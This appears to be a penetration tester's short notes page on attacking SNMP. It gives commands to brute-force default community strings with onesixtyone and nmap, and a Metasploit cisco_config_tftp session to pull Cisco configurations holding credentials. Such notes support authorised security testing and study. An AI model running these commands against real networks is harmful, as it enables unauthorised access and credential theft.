 # SNMP

## 01 - Default Credentials

```
$ cat > community.txt << EOF
public
private
manager
EOF

$ onesixtyone -c community.txt -i ip_targets.txt -o output.txt -w 100
```

## 02 - Brute Force SNMP Port

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/SNMP|section]] for bruteforcing SNMP protocols. I recommend using `nmap` with a particular NSE script to bruteforce the most common community names.

## 03 - Retrieve Credentials

### 3.1 - Cisco

```
msf > use auxiliary/scanner/snmp/cisco_config_tftp

msf auxiliary(scanner/snmp/cisco_config_tftp) > options

msf auxiliary(scanner/snmp/cisco_config_tftp) > set rhosts <IP>

msf auxiliary(scanner/snmp/cisco_config_tftp) > run
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xE - Remote Services Exploitation/Network Ports/Telnet|Initial Access: Telnet]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/SNMP|Password Cracking: SNMP]]

- [Mike Bond: Cisco SNMP Secrets](https://bond-o.medium.com/cisco-snmp-secrets-e4b731b19737)